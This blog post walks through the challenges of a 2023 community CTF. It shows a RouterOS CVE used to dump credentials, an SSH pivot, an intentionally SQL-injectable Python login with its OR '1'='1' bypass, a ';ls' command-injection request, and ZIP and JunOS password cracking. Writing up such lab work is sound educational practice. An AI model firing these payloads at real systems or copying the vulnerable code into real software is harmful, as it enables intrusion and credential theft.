





2025-11-05
Before I start writing challenges for the 2025 edition of the NoCo Hackers annual CTF, I wanted to look back at some of the challenges I’ve written in the past. 2023 was the first annual NoCo Hackers CTF (it was also the year NoCo Hackers was founded!), in 2023 I was the sole contributor, so this writeup encompasses every challenge from that year.
For the NoCo Hackers CTFs, my goal has been to keep things fun, interesting and educational with a set of challenges that should be solvable by most participants.
The challenges were a mix of downloadable files and hosted challenges. All the hosted challenges ran as virtual machines on my home lab. The VMs used for the CTF were placed behind PfSense VMs configured to route all traffic through a wireguard tunnel provided by hoppy.network. In turn the VMs were connected to my host-isolated guest network.

Physically, the lab consisted of some pretty basic hardware. Two proxmox hosts, one with an i5 3570K / 16GB RAM / 1TB storage and another with an i7 6700T / 32GB RAM / 1TB Storage. A physical Mikrotik RB3011 (with a vulnerable version of RouterOS) and a Mikrotik css326-24g-2s+rm switch.

In addition to the self-hosted infrastructure, I also used a 1vCPU, 1GB RAM digital ocean droplet to host CTFd.
The first challenge was just a TXT record containing the flag.
┌─(bjames@llpt03)-[~]
└─$ dig TXT nocohackers.com +short
"v=spf1 include:spf.efwd.registrar-servers.com ~all"
"flag{67856802eaa171df696813bcdd34f4b1}"Description:
There is a flag hidden somewhere on this website, can you find it?
Scope: ctf.nocohackers.com
The CTF’s site only had a few pages. I just stuck an invisible element in one of the pages:
<p style="visibility: hidden">flag{dba0787460c82a806bece8b0ba829054}</p>Description:
Travel back in time to find the key:
The year the IMPs first spoke to each other.
The birth year of the Grandmother of Computing.
The year the world learned how to Smash the Stack for Fun and Profit.
Scope: netchallenge.nocohackers.com
The challenge title is a reference to port knocking. Port knocking is a technique used to prevent a port from being reachable until connections have been attempted on other ports. On my mikrotik rb3011, this configuration looks like the following:
add action=add-src-to-address-list address-list=1969 address-list-timeout=10s chain=input dst-port=1969 protocol=tcp
add action=add-src-to-address-list address-list=port:1815 address-list-timeout=10s chain=input dst-port=1815 protocol=tcp src-address-list=port:1969
add action=add-src-to-address-list address-list=secure address-list-timeout=1h chain=input dst-port=1996 log=yes protocol=tcp src-address-list=port:1815The easiest way to knock is to use Ncat.
┌─(bjames@llpt03)-[~]
└─$ nc -w1 netchallenge.nocohackers.com 1969
Ncat: TIMEOUT.
┌─(bjames@llpt03)-[~]
└─$ nc -w1 netchallenge.nocohackers.com 1815
Ncat: TIMEOUT.
┌─(bjames@llpt03)-[~]
└─$ nc -w1 netchallenge.nocohackers.com 1996
Ncat: Connection refused.
┌─(bjames@llpt03)-[~]
└─$ curl netchallenge.nocohackers.com -s | grep flag
<p>flag{591ea8da35bf2e407e1280bf1929f53e}</p>Description:
Solving “Knock and the path will open” is a prerequisite to this challenge. Once you have access to the administrative ports of the router, there is a way in and it doesn’t involve credential stuffing. The exploit itself will make the flag visible, as well as some username/password combinations. Note that the admin access can only login from a specific IP. You’ll need to proceed using the lower privilege account, admin access to the router is not required for any challenges in this CTF.
netchallenge.nocohackers.com:80 is the web config page for the Mikrotik rb3011. This page tells us the router is running RouterOS 6.30. A quick web search yields CVE-2018-14847, along with PoCs such as this one (running random PoCs from the internet is generally ill advised, but this one is legit).
Running the PoC outputs a list of username and password combinations. One of which contains a flag.
Description:
This flag requires first completing “Knock to open the path” and “A CVE to find, you see”. The flag exists on a webserver behind the router. Can you find a way to steal it?
This challenge can be solved with port forwarding.
ssh user@netchallenge.nocohackers.com -L 8080:192.168.88.10:80 -N -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa-L forward requests on localhost:8080 to
192.168.88.10:80 via the SSH connection-N don’t spawn a shell on the remote host-oHostKeyAlgorithms=+ssh-rsa allow use of ssh-rsa-oPubKeyAcceptedAlgorithms=+ssh-rsa accept the use of
ssh-rsaThe webserver itself can be found by checking ARP tables on the mikrotik or reading the config and ping sweeping the LAN.
Once we start forwarding requests to 192.168.88.10:80 we can retrieve the flag via cURL:
┌─(bjames@llpt03)-[~]
└─$ curl localhost:8080 -s | grep flag
<h1><strong>flag{71e221acdcc451ecf79ef8edf0d95dbf}</strong></h1>Description:
The flag is hidden in the attached image. Good luck!
The image from the challenge can be found here. In the case of this challenge, the flag is just hidden in the last few bytes of the image. Since PNG files use a trailer to denote the end of image data, this doesn’t impact how the image is rendered.
┌─(bjames@llpt03)-[~/Downloads]
└─$ hexdump -C whatapng.png | tail
001c06b0 3b 10 81 e7 00 00 ed 91 76 c5 cf f9 5d 06 80 a5 |;.......v...]...|
001c06c0 c2 c6 3e cf 78 bf 5d 28 72 5d b1 8f d6 fb db 15 |..>.x.](r]......|
001c06d0 86 58 cf ae 04 da 43 be fc ee fa 8b 30 6f 63 48 |.X....C.....0ocH|
001c06e0 f5 92 b8 0e 80 6b ed f2 b3 5d 15 c2 a6 28 9b 6b |.....k...]...(.k|
001c06f0 d2 d5 71 2a 10 a7 98 0e a3 0c 80 ff 07 99 07 30 |..q*...........0|
001c0700 aa 1a bc 5f 1e 00 00 00 00 49 45 4e 44 ae 42 60 |..._.....IEND.B`|
001c0710 82 66 6c 61 67 7b 66 65 31 33 35 63 63 63 66 62 |.flag{fe135cccfb|
001c0720 62 30 63 39 66 37 30 36 30 34 64 65 63 35 66 65 |b0c9f70604dec5fe|
001c0730 34 39 32 32 33 37 7d |492237}|
001c0737Description
I hope you know your way around GIMP better than I do. The flag is in the attached image.
The image for this challenge was created with the following process: 1. Image was converted to 255 colors via GIMP 2. Image > Mode > Indexed 3. Generated a QR code containing the flag using qrencode 4. Used color picker to select one of the darker areas of the image 5. Used bucket fill to make the QR code a slightly different color 6. Pasted/rotated the QR code
One way to retrieve the QR code is using GIMP as shown below:
Description
You’ve managed to sniff some packets, there is a flag inside. Can you find it?
For this challenge, I created a bunch of random files using a bash script. In plain english it:
/usr/dict/share/wordsfortuneThen I manually add a flag to one of the images using gimp. After that, I transferred the files via Python SimpleHTTPServer and took a packet capture.
Solving the challenge can be done as follows:
grep -ra flag{ ./ (-r
searches recursively, -a treats binary files as plaintext)
This challenge is a pretty vanilla SQL injection to auth bypass. The webpage has input validation, but only on the client side. Using curl allows auth bypass. The vulnerable code is copied below (full source available here):
def check_password(username, password) -> str | None:
"""
Check if the given username/password combination is valid.
This function is purposely vulnerable to SQL injection.
"""
conn = sqlite3.connect(f"file:{DB_FILE}?mode=ro", uri=True) # open the database in read-only mode
c = conn.cursor()
c.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")
result = c.fetchone()
print(result)
conn.close()
return resultSpecifically:
curl 'http://webchallenge.nocohackers.com/login' -X POST --data-raw "username=' OR '1'='1&password=' OR '1'='1" -c -
causes our database query to become:
SELECT
*
FROM users
WHERE
username='' OR '1'='1' AND password='' OR '1'='1'Which matches all rows due to the injected OR '1'='1's.
In return, we get a session cookie for the user “Alice”.
Once you’ve gained access to the IT dashboard in “All my queries are belong to you”, you’re greeted with a page containing a pretty basic command injection vulnerability.

In this case, the flag is quite easy to find once you have RCE.
Interacting with the dashboard, it becomes very apparent that we are
executing shell
commands based on user input. All that is needed to execute code on
the system is to add a ; then the command you want to
run.
[bjames@llpt01 ~]$ curl 'http://webchallenge.nocohackers.com/ping' -X POST -H 'Cookie: noco_hackers_2023_session=cb6a9e9ff9d79cf3665eaab34c3f63c4ee760282261e9a59041e08441a605b72' --data-raw 'host=8.8.8.8;ls'
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Login</title>
<link rel="stylesheet" href="/static/css/style.css">
</head>
<body>
<h1>IT Dashboard</h1>
<pre class="code">PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=111 time=34.3 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=111 time=33.9 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=111 time=35.0 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=111 time=35.4 ms
--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 33.862/34.616/35.383/0.591 ms
Dockerfile
docker-compose.yml
flag{d76bebbf741d89109db22e492196c04}
nginx
project
requirements.txt
session.db
user.db
wsgi.pyDescription:
The attached x86_64 ELF binary is a subnet calculator. Can you extract the flag contained within?
Two relevant functions are copied below (full source here):
void bunniesArentJustCuteLikeEverybodySupposes(char *obfuscatedFlag, int length, char key) {
char a[] = "They've got them hoppy legs and twitchy little noses!";
char b[] = "And what's with all the carrots?";
char c[] = "What do they need such good eyesight for anyway?";
char d[] = "Bunnies, bunnies!";
char e[] = "It must be bunnies!";
for (int i = 0; i < length; i++) {
obfuscatedFlag[i] ^= key; // XOR again with the same key to get original character
}
}
int main(int argc, char ** argv){
// flag{4722850fba3f38a317857d608888802b}
char obfuscatedFlag[] = {0xcc, 0xc6, 0xcb, 0xcd, 0xd1, 0x9e, 0x9d, 0x98, 0x98, 0x92, 0x9f, 0x9a, 0xcc, 0xc8, 0xcb, 0x99, 0xcc, 0x99, 0x92, 0xcb, 0x99, 0x9b, 0x9d, 0x92, 0x9f, 0x9d, 0xce, 0x9c, 0x9a, 0x92, 0x92, 0x92, 0x92, 0x92, 0x9a, 0x98, 0xc8, 0xd7, 0xaa, 0x0a};
int length = sizeof(obfuscatedFlag) / sizeof(obfuscatedFlag[0]);
bunniesArentJustCuteLikeEverybodySupposes(obfuscatedFlag, length, 0xAA);This fairly simple reversing challenge can be solved with either static or dynamic analysis. In the video below we see how to solve it using pwndbg.
Description:
This flag was “encrypted” in a weak manner. The bytes output from the encryption program follow.
0x080302081356075a064a43080e53595d515b5c5c16465d5a05595d55520f0441475957070a15
Can you decipher it?
We know flags always start with “flag{“ and end with “}”. We also know XORing is a common obfuscation method. Exclusive OR (XOR) is defined as a bitwise OR where the output is only “1” if the inputs are different. A truth table follows:
| A | B | A∨B |
|---|---|---|
| 0 | 0 | 0 |
| 0 | 1 | 1 |
| 1 | 0 | 1 |
| 1 | 1 | 0 |
Looking at this you can see that XOR’ing input A against the output will yield input B.
| input | mask | input ∨ mask |
|---|---|---|
| 0x08 | 0x66 (ascii f) | 0x6e (ascii n) |
| 0x03 | 0x6c (ascii l) | 0x6f (ascii o) |
| 0x02 | 0x61 (ascii a) | 0x63 (ascii c) |
| 0x08 | 0x67 (ascii g) | 0x6f (ascii o) |
| 0x13 | 0x7b (ascii {) | 0x68 (ascii h) |
From this we can guess the key is nocohackers repeated
for the entirety of the key.
Description:
You found a flash drive labeled “John - IT”. It’s got a single ZIP archive on it, password protected so it probably contains something good.
Note: if you want to follow along, the archive can be found here
This is a multipart challenge. To find the flag we must:
I used JTR, but hashcat would also work.
[bjames@llpt01 work_stuff_working]$ zip2john work_stuff.zip > work_stuff.hash
[bjames@llpt01 work_stuff_working]$ ~/john/run/john work_stuff.hash
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Loaded hashes with cost 1 (HMAC size) varying from 784 to 403727
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:13 DONE 1/3 (2023-12-14 09:58) 0g/s 33502p/s 33503c/s 33503C/s Chili1900..Md1900
Proceeding with wordlist:/home/bjames/john/run/password.lst
Enabling duplicate candidate password suppressor
colorado1! (work_stuff.zip/trap_card.png)
colorado1! (work_stuff.zip/base_config_ios.txt)
colorado1! (work_stuff.zip/base_config_junos.txt)
colorado1! (work_stuff.zip/vegan_rocky_mountain_chili.md)
colorado1! (work_stuff.zip/base_config_ios_xr.txt)
colorado1! (work_stuff.zip/rocky_mountain_chili.md)
6g 0:00:03:49 DONE 2/3 (2023-12-14 10:02) 0g/s 7307p/s 33861c/s 33861C/s mikeyq..yours4eva
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
[bjames@llpt01 work_stuff_working]$base_config_ios.txt and base_config_junos.txt both contain passwords obfuscated with a Vigenere cipher. This cipher has been broken since at least 1863 and Cisco has been aware of tools to reverse them since at least 1995. The vulnerable password types are:
There are websites and tools that can do this for you (especially in the case of Cisco Type 7). Although last time I tried the obvious result for JunOS Type 9 it didn’t work, so I found and forked a Python2.7 decoder and updated it for Python3. The original is here and the Python3 fork is here.
┌─(bjames@llpt03)-[~/Downloads]
└─$ python3 junosdecode.py '$9$9Rgxtu1MWxN-w1R4ZGjq.z369O1ylKXxd9A7-bwg45QzFAp0BIEhr.PO1Rhrl24oGHqQz6uBIjHmTFnCAKMWXxdYgojk.aJFn6/tp7-dw4aZUjmT3'
junos password decrypter
Original python 2.7 version by matt hite
lazily converted to python 3 by Brandon James
original perl version by kevin brintnall
encrypted version: $9$9Rgxtu1MWxN-w1R4ZGjq.z369O1ylKXxd9A7-bwg45QzFAp0BIEhr.PO1Rhrl24oGHqQz6uBIjHmTFnCAKMWXxdYgojk.aJFn6/tp7-dw4aZUjmT3
$9$9Rgxtu1MWxN-w1R4ZGjq.z369O1ylKXxd9A7-bwg45QzFAp0BIEhr.PO1Rhrl24oGHqQz6uBIjHmTFnCAKMWXxdYgojk.aJFn6/tp7-dw4aZUjmT3
decrypted version: flag{8f96ea92081ab1523f6dc61b46510721}Description
Putting the M in ICMP Scope: webchallenge.nocohackers.com
This was based loosely on a data exfil toy I wrote called “absurd ICMP” (I should do a post on this, it’s neat). Absurd ICMP shoves data into ICMP’s 2-byte sequence field. In the case of Absurd ICMP the data is encoded in the echo requests coming from the client, so the behavior is a bit different. In this challenge, the server ignores the sequence numbers sent by the client and responds with something completely different.

Upon pinging webchallenge.nocohackers.com, it is pretty apparent that something is going on with the sequence numbers. A tool like ngrep can be used to visualize the contents a little better.
Using a similar technique to the one described in challenge #12, you can discover the data is obfuscated by XORing the sequence number with the leftmost bytes of the ICMP payload. An example decoder can be found here.
{kind=link}